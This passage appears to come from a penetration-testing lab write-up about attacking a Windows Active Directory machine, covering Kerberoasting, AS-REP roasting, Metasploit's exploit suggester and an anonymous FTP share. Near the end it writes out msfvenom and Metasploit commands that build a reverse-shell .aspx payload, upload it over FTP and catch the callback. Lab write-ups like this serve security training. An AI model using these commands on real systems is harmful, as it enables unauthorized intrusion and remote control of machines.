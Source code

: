 ~~~bash
~~~

## Kerberoast and AsrepRoast
After finding out the usernames through Zerologon, I ran tests and found out that the user J.Saltman was vulnerable to AsrepRoasting and the service users hfs_svc and VNC_svc were kerberoastable. Since I already got admin access to the machine, I didn't really explore the kerberoastable users. I simply created a reverse shell for J.Saltman and used Metasploit's Exploit Suggester in order to find possible priv esc vulnerabilties. 

### Exploit Suggester
In metasploit there is a tool called exploit suggester where you background a meterpreter session and metasploit uses the session to scan for priv esc vulnerabilities. This takes a couple minutes to run, but it's very effective if you don't know what to do next. Sadly, the suggester found possible exploits, but none of them worked. It is possible that I had to login as VNC_svc and priv esc from that user, but I didn't test it. 

VNC_svc was a valid user on the machine who had their own Users directory. Also, when looking through bloodhound, it was revealed that VNC_svc was a high value target, which is why I mentioned my previous idea. 

### Anonymous FTP Share
This is the path that was bugged. The windows machine hosted an FTP server. It allowed anonymous ftp and a directory I noticed was the aspnet_client directory. What's supposed to happen was that attackers could visit the files that were displayed on the ftp server. 

This is vulnerable because the website was using aspnet which uses .aspx files. An attacker can create a malicious .aspx file using the tool msfvenom and spawn a reverse shell. 

So, the attacker creates a malicious .aspx file with msfvenom, uploads it to the ftp server, creates a listener using metasploit, and visit the file through the web server. You can refer to the "Devel" Hack the Box walkthrough for more information. 

~~~bash
#create malicious file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your ip> LPORT=4444 -f aspx > payload.aspx
ftp anonymous@172.16.199.112
put payload.aspx
#metasploit listener
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (your ip)
set lport 4444
run
#visit the website & revisit metasploit
#You should've gotten a meterpreter connection. 
~~~

Now, I don't know what user you will be, but you will most likely be an unprivileged user like J.Saltman or something. In this case, you would use the exploit suggester again to find priv esc vulnerabilies. 
